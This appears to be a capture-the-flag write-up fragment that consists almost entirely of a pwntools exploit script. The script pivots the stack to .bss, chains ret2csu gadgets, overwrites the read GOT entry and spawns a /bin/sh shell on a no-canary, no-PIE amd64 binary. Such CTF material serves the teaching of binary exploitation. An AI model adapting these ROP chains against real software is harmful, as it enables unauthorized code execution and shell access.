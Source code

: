```python=

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()


bss = 0x601068 
leave_r = 0x004005db #: leave ; ret ;
pop_rdi = 0x00400693 #: pop rdi ; ret  ;
pop_rsi = 0x00400691 #: pop rsi ; pop r15 ; ret  ;
mov_r14 = 0x00400670
add_rbp = 0x00401108 
pop_r45 = 0x00400690 #: pop r14 ; pop r15 ; ret  ; 
csu = 0x040068A
init = 0x600e38
ret = 0x0040062d

rop1 = flat([
	'A'*10,bss,
	pop_rsi, bss+8, 0x0,
	elf.sym.read, leave_r
])
io.send(rop1)
pause()
rop2 = flat([
	csu, 0x0, 0x1, init, 0x0, 0x0,0x1000, mov_r14, 0x0,0x0,bss,0x0,0x0,0x0,0x0,
	pop_rsi, bss+0x98,0,
	elf.sym.read,leave_r
])

io.send(rop2)

r2 = flat([
        '/bin/sh\x00',
	pop_rsi, elf.got['read'], 0x0,
	elf.sym.read,
	csu, 0x0, 0x1, init, 0x0,0x0, (bss + 0x300), mov_r14, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0,
	pop_rsi, (bss + 0x300), 0x0,
	elf.sym.read,
	pop_rdi, bss+0x98,
	pop_rsi, (bss + 0x308), 0x0,
	elf.sym.read
])
pause()
io.send(r2)
pause()
print('NOW')
io.send('\x8f')
pause()
io.send(p64(0x0) + p64(bss + 0x310) + '\x00'*43)
io.interactive()


```
#### Second blood.